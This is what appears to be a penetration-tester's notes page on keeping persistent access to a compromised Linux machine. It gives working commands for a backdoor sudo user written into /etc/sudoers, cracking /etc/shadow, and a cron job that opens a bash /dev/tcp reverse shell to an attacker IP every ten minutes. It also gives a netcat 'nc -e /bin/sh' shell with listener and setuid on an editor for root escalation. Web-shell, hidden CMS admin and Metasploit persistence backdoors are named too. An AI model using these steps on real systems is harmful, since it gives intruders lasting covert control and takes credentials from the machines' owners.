 # Persistence - Rootkit - Backdoor

So if you manage to compromise a system the system might die for whatever reason. If you have used an exploit that messes with the machine the user might want to reboot, and if the user reboots you will lose your shell.

Or, maybe the way to compromise the machine is really complicated or noisy and you don't want to go through the hassle of doing it all again. So instead you just create a backdoor that you can enter fast and easy.

Read this
https://gist.github.com/dergachev/7916152

## Create a new user

The most obvious, but not so subtle way is to just create a new user (if you are root, or someone with that privilege) 

```
adduser pelle
adduser pelle sudo
```

Now if the machine has ssh you will be able to ssh into the machine.

On some machines, older linux I think, you have to do

```
useradd pelle
passwd pelle
echo "pelle    ALL=(ALL) ALL" >> /etc/sudoers
```

## Crack the password of existing user

Get the `/etc/shadow` file and crack the passwords.


## SSH key

Add key to exisitng ssh-account.


## Cronjob NC

Create cronjob that connects to my machine every 10 minutes. Here is an example using a bash-reverse-shell. You also need to set up a netcat listener.

Here is how you check if cronjob is active
```
service crond status
pgrep cron
```

If it is not started you can start it like this

```
service crond status
/etc/init.d/cron start
```

```
crontab -e
*/10 * * * * 0<&196;exec 196<>/dev/tcp/192.168.1.102/5556; sh <&196 >&196 2>&196
```

    /bin/sh | nc <your IP> <any unfiltered port>


```
/10 * * * * nc -e /bin/sh 192.168.1.21 5556
```
Listener
```
nc -lvp 5556
```

Sometimes you have to set the user
```
crontab -e
*/10 * * * * pelle /path/to/binary
```




### References:
http://kaoticcreations.blogspot.cl/2012/07/backdooring-unix-system-via-cron.html


## Binary trojan
Create a binary with malicious content inside. Run that, get meterpreter shell, run metasploit persistence.

https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/

If you have a meterpreter shell you can easily just run persistence.

## Backdoor in webserver

You can put a cmd or shell-backdoor in a webserver.

Put backdoor on webserver, either in separate file or in hidden in another file

## Admin account to CMS

Add admin account to CMS.


## Mysql-backdoor

Mysql backdoor

## Hide backdoor in bootblock


## Nmap
https://gist.github.com/dergachev/7916152

## Setuid on text-editor

You can setuid on an editor. So if you can easily enter as a www-data, you can easily escalate to root through the editor. 

With `vi` it is extremly easy. You just run `:shell`, and it gives you a shell.

```
# Make root the owner of the file
chown root myBinary

# set the sticky bit/suid
chmod u+s myBinary
```
